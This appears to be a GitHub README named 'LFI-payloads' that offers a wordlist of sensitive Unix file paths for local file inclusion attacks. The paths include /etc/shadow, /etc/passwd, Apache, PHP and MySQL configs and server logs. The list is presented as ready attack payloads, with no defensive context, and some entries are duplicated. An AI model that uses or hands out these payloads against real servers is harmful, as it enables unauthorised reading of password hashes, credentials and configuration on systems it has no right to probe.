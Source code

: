 # LFI-payloads
This is the best lfi (Local File Inclusion ) Payloads :


/etc/passwd
/etc/shadow
/etc/aliases
/etc/anacrontab
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/at.allow
/etc/at.deny
/etc/bashrc
/etc/bootptab
/etc/chrootUsers
/etc/chttp.conf
/etc/cron.allow
/etc/cron.deny
/etc/crontab
/etc/cups/cupsd.conf
/etc/exports
/etc/fstab
/etc/ftpaccess
/etc/ftpchroot
/etc/ftphosts
/etc/groups
/etc/grub.conf
/etc/hosts
/etc/hosts.allow
/etc/hosts.deny
/etc/httpd/access.conf
/etc/httpd/conf/httpd.conf
/etc/httpd/httpd.conf
/etc/httpd/logs/access_log
/etc/httpd/logs/access.log
/etc/httpd/logs/error_log
/etc/httpd/logs/error.log
/etc/httpd/php.ini
/etc/httpd/srm.conf
/etc/inetd.conf
/etc/inittab
/etc/issue
/etc/lighttpd.conf
/etc/lilo.conf
/etc/logrotate.d/ftp
/etc/logrotate.d/proftpd
/etc/logrotate.d/vsftpd.log
/etc/lsb-release
/etc/motd
/etc/modules.conf
/etc/motd
/etc/mtab
/etc/my.cnf
/etc/my.conf
/etc/mysql/my.cnf
/etc/network/interfaces
/etc/networks
/etc/npasswd
/etc/passwd
/etc/php4.4/fcgi/php.ini
/etc/php4/apache2/php.ini
/etc/php4/apache/php.ini
/etc/php4/cgi/php.ini